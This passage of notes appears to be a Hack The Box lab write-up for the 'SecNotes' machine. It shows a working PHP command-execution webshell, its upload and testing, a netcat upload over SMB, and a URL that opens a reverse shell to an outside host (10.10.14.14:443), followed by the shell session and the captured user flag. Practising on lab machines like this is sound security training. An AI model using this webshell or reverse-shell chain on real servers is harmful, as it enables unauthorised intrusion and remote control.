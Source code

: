 Error using a common php webshell:

![Pasted image 20210419224903.png](../../zzz_res/attachments/Pasted_image_20210419224903.png)

Edited the webshell:

```php
<?php

if(isset($_REQUEST['aaa'])){
        echo "<pre>";
        $aaa = ($_REQUEST['aaa']);
        system($aaa);
        echo "</pre>";
        die;
}

?>
```

```bash
┌──(kali㉿kali)-[~/…/HTB/box/SecNotes/exploit]
└─$ curl http://secnotes.htb:8808/ws.php?aaa=whoami
<pre>secnotes\tyler
</pre>
```

Upload custom netcat binaries: [netcat 1.11 for Win32/Win64](https://eternallybored.org/misc/netcat/)

```bash
smb: \temp\> put nc64.exe 
putting file nc64.exe as \temp\nc64.exe (142.2 kb/s) (average 129.2 kb/s)
```

Get the reverse shell: [http://secnotes.htb:8808/temp/ws.php?aaa=nc64.exe+10.10.14.14+443+-e+cmd.exe](http://secnotes.htb:8808/temp/ws.php?aaa=nc64.exe+10.10.14.14+443+-e+cmd.exe)

```bash
┌──(kali㉿kali)-[~/…/HTB/box/SecNotes/exploit]
└─$ sudo nc -nvlp 443                                     
listening on [any] 443 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.97] 50027
Microsoft Windows [Version 10.0.17134.228]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\inetpub\new-site\temp>whoami
whoami
secnotes\tyler

C:\inetpub\new-site\temp>type C:\Users\tyler\desktop\user.txt
type C:\Users\tyler\desktop\user.txt
7e4ab3270ca57b5ec7cdb2a15c2f6078
```
